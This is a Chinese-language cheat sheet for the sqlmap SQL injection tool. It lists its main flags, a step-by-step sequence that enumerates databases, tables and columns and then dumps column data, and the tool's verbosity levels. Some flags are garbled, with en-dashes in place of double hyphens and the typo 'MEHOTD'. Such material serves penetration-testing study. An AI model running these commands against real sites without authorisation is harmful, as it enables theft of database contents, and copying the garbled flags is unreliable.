 # sqlmap的使用

### 常用的参数

- -u或者–url 指定注入目标URL
	python sqlmap.py -u http://ip/index.php?id=1
- –dbms 指定数据库
	python sqlmap.py -u http://ip/index. php?id=1 –dbms=mysql
- –os 指定系统
	python sqlmap.py -u http://ip/index.php?id=1 –os=Windows
- –flush-session 清空session
	python sqlmap.py -u http://ip/index.php?id=1 –flush-session
- –proxy 指定代理
	python sqlmap.py -u http://ip/index.php?id=1 –proxy http://ip:port–user-agent
- 指定useragent信息
	python sqlmap.py -u http://ip/index.php?id=1
	–user-agent='Mozilla/5.0 (Windows NT 10.0;WOW64;rv:55.0) Gecko/20100101 Firefox/55.0'
- –data 数据以POST方式提交
	python sqlmap.py -u http://ip/index.php –data="id=1"
- method指定请求方法
	--method=MEHOTD：强制指定HTTP方法（如PUT）
- referer指定来源
	--referer=REFERER：指定HTTP头部中的referer值
- 设置cookie
	python sqlmap.py -u "http://ip/user.php" --cookie "JSESSIONID=E5D6C8C81;NAME=werner;"
- 指定注入方式为延时注入爆表
	python sqlmap -u
	"http://ip/user.php?name=lil"
	--technique=T --dbms mysql -dbs

### 注入过程

- 列出所有的数据库
	python sqlmap.py -u http://ip/index.php?id=1 –dbs
- 列出当前数据库
	python sqlmap.py -u http://ip/index.php?id=1 –current-db
- 列出DBname数据库所有的表
	python sqlmap.py -u http://ip/index.php?id=1 -D ‘DBname’ –tables
- 列出DBname数据库table表中的所有字段
	python sqlmap.py -u http://ip/index.php?id=1 -D ‘DBname’ -T ‘table’ –columns
- 转存DBname数据库table表中 column1,column2字段中的数据
	python sqlmap.py -u http://ip/index.php?id=1 -D ‘DBname’ -T ‘table’ -C ‘column1,column2’ –dump

### 输出详细等级

选项：-v

该选项用于设置输出信息的详细等级，共有七个级别。

默认级别为 1，输出包括普通信息，警告，错误，关
键信息和 Python 出错回遡信息（如果有的话）。

0：只输出 Python 出错回溯信息，错误和关键信息。

1：增加输出普通信息和警告信息。

2：增加输出调试信息。

3：增加输出已注入的 payloads。

4：增加输出 HTTP 请求。

5：增加输出 HTTP 响应头

6：增加输出 HTTP 响应内容


>参考材料 https://sssurou.github.io/2023/08/18/sqlmap/
>https://zhuanlan.zhihu.com/p/485603130?utm_id=0